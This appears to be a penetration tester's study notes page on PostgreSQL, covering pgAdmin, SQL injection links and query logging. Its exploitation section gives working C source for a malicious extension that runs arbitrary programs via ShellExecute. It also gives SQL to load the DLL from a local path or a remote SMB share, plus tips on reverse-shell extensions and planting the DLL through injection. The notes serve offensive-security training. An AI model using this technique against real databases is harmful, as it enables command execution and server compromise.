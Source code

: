```yaml
---
Ports: 5432/5433
Description: PostgreSQL, also known as Postgres, is a free and open-source relational database management system emphasizing extensibility and SQL compliance.
---
```


>[!info]
> PostgreSQL, also known as Postgres, is a free and open-source relational database management system emphasizing extensibility and SQL compliance.


# Basic Usage

## pgAdmin

[pgAdmin](https://www.pgadmin.org/) is the most popular and feature rich Open Source administration and development platform for PostgreSQL, the most advanced Open Source database in the world.

![](../../zzz_res/attachments/pgAdmin.png)

---

# Exploitation

- [World of SELECT-only PostgreSQL Injections: (Ab)using the filesystem](../../Readwise/Articles/phrack.org%20-%20.%20Phrack%20Magazine%20.%200x10-0x47-0x08.md)

## [SQL Injection](../Web%20&%20Network%20Hacking/SQL%20Injection.md)

## Build a custom PostgreSQL extension

Microsoft Visual Studio code:
```c
#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <stdio.h>
#include "utils/builtins.h"
#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif
/* Add a prototype marked PGDLLEXPORT */
PGDLLEXPORT Datum awae(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(awae);
/* this function launches the executable passed in as the first parameter in a FOR loop bound by the second parameter that is also passed*/
Datum
awae(PG_FUNCTION_ARGS)
{
	/* convert text pointer to C string */
	#define GET_STR(textp) DatumGetCString(DirectFunctionCall1(textout,
	PointerGetDatum(textp)))
	/* retrieve the second argument that is passed to the function (an integer) that will serve as our counter limit*/
	int instances = PG_GETARG_INT32(1);
	for (int c = 0; c < instances; c++) {
	/*launch the process passed in the first parameter*/
	ShellExecute(NULL, "open", GET_STR(PG_GETARG_TEXT_P(0)), NULL, NULL, 1);
}
PG_RETURN_VOID();
}

// Test is on PostgreSQL
// create or replace function local(text, integer) returns void as $$C:\awae.dll$$, $$awae$$ language C strict;
// create or replace function remote(text, integer) returns void as $$\\192.168.119.120\awae\awae.dll$$, $$awae$$ LANGUAGE C STRICT;
// SELECT local($$calc.exe$$, 3);
// DROP FUNCTION local(text, integer);
// > del c:\awae.dll
```

>[!tip] Tip and tricks
>- Reverse shell extension code can be found in [UDF Postgres](../Web%20&%20Network%20Hacking/Shell%20Cheatsheet.md#UDF%20Postgres) 
>- If you can't download the DLL from anywhere and you need to directly create it using the SQL Injection, use PostgreSQL [Large Objects](https://www.postgresql.org/docs/9.2/largeobjects.html) mentioned in [Reading & Writing files](../Web%20&%20Network%20Hacking/SQL%20Injection.md#Reading%20&%20Writing%20files)



---

# Misc

## Enable database logging (for researching SQL Injection vuln.)

```
$ edit postgresql.conf
...
log_statement = 'all' # none, ddl, mod, all
...
```

>Remember to restart the service. 

Log files for failed query can be found inside `pgsql_log\` 